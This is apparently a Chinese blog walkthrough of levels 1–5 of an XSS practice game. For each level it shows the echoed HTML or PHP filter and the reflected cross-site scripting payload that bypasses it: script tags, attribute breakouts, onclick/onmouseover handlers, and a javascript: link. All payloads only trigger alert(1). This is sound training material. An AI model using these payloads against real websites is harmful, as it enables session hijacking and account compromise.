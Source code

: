 ```yaml
---
layout: post
title: "XSS_Game-level-1-5" 
subtitle: "XSS_Game-level-1-5"
date: 2019-06-25
author: ppbibo
category: Notes
---
```




[TOC]

## Level-1 无过滤

```bash
http://xss.tesla-space.com/level1.php?name=<script>alert(1)</script>
```

![xss-level-1](/static/img/xss-level-1.png)

没有任何效验直接弹窗。



## Level-2 无过滤

继续尝试上一关的**payload**进行测试，源代码回显如下：

```html
<body>
<h1 align=center>欢迎来到level2</h1>
<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>
<form action=level2.php method=GET>
<input name=keyword  value="<script>alert(1)</script>">
<input type=submit name=submit value="搜索"/>
</form>
</center><center><img src=level2.png></center>
<h3 align=center>payload的长度:25</h3><h2 align=center>By:HACK学习</h2>
</body>
```

出现了两处第一处被转义如下：

```<``` 被转义成 ```&lt;```

```>``` 被转义成 ```&gt; ```



第二处  ```input ``` 标签没有任何效验 , 闭合value标签编写 **payload ** ```"><script>alert(1)</script>``` 成功弹窗。

![xss-level-2-1](/static/img/xss-level-2.png)



## Level-3 利用 HTML 事件属性

先尝试上一关的 **payload** 源代码回显如下：

```html
<h2 align=center>没有找到和&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>
<form action=level3.php method=GET>
<input name=keyword  value='&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;'>
<input type=submit name=submit value=搜索 />
</form>
```

发现两处都被转义了如下：

```"``` 被转义成 ```&quot;```

利用 ```onclick``` 点击事件来完成弹窗 ,  **payload **```' onclick=alert(1)<'```

![xss-level-3](/static/img/xss-level-3.png)



## Level-4 利用 HTML 事件属性

尝试上一关的 **payload** 插入，源代码回显如下：

```html
<h2 align=center>没有找到和' onclick=alert(1)&lt;'相关的结果.</h2><center>
<form action=level4.php method=GET>
<input name=keyword  value="' onclick=alert(1)'">
<input type=submit name=submit value=搜索 />
</form>
```

发现单引号改为了双引号，利用 **payload ** ``` "onmouseover="alert(111)```  成功弹窗。

![xss-level-4](/static/img/xss-level-4.png)

*Tag：*```当指针移动到标签 onmouseover 上就会触发 ``` 。



## Level-5 链接触发

看了下php源码代码如下：

```php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
```

发现将```get```的参数都转换成了小写，防止了大小写绕过，将所有的```<script``` 替换成了``` <scr_ipt ```并且将 ```on ```替换成了``` o_n``` ，利用一种链接的形式来调用 JS （而且 html 语言并不是那么严格）**payload** ```"><a href="javascript:alert(1)">点我有惊喜～```  成功弹窗。

![xss-level-5](/static/img/xss-level-5.png)



## Level-6 

持续更新...

[靶场地址](http://xss.tesla-space.com)